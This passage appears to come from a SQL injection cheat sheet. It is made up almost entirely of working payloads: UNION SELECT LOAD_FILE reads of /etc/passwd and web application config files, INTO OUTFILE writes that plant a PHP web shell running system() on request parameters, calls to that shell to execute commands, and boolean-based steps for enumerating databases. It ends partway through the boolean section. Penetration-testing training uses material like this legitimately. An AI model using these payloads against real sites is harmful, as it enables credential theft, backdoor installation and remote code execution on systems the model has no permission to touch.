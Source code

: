       SELECT LOAD_FILE('/etc/passwd');
      
      Example:
      ' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -

#### Another Example

We know that the current page is search.php. The default Apache webroot is /var/www/html. Let us try reading the source code of the file at /var/www/html/search.php.

      ' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
      ' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
### Write Files Using Union SQL Injection or RCE Using SQL Injection
Example

      ' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
Web Shell Upload:

      ' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
      
Basic PHP Web Shell:

      <?php system($_REQUEST['cmd']); ?>
      
OR 
      
      <?php system($_GET['cmd']); ?>
 
### For RCE , Call Uploaded Web shell 

Example :
          
          url/upload_file.php?parameter=commnad

          http://cyberteach360/shell.php?cmd=id
# Boolean Based SQL Injection
Boolean based SQL Injection refers to the response we receive back from our injection attempts which could be a true/false, yes/no, on/off, 1/0 or any response which can only ever have two outcomes. That outcome confirms to us that our SQL Injection payload was either successful or not. On the first inspection, you may feel like this limited response can't provide much information. Still, in fact, with just these two responses, it's possible to enumerate a whole database structure and contents.

#### Step 1:Find out actual column number

      1.admin123' UNION SELECT 1;-- 
      2.admin123' UNION SELECT 1,2,3;--
if response is true till 1,2,3 but flase in 1,2,3,4 ,the target column ***number is 3***

#### Step 2:Find out database name

      admin123' UNION SELECT 1,2,3 where database() like 'some character%';--
      example:
              admin123' UNION SELECT 1,2,3 where database() like 's%';--
 